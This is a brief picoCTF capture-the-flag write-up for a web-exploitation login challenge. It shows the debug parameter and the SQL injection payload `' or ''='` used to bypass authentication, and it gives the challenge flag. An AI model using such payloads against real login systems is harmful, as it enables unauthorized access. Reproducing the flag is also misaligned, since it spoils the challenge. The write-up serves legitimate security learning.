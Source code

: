 #web-exploitation
<hr>
#### Description
There is a website running at `https://jupiter.challenges.picoctf.org/problem/50009/` ([link](https://jupiter.challenges.picoctf.org/problem/50009/)) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

#### Solve
1.  First, send POST request to https://jupiter.challenges.picoctf.org/problem/50009/login.php with form key of debug=1
2. The SQL query: SELECT * FROM users WHERE name=' '  AND password=' '
3. Do SQL Injection by sending POST request with username=`' or ''='` and password=`' or ''='`
4. Result of SQL query: `SQL query: SELECT * FROM users WHERE name='' or ''='' AND password='' or ''=''`
5. picoCTF{s0m3_SQL_fb3fe2ad}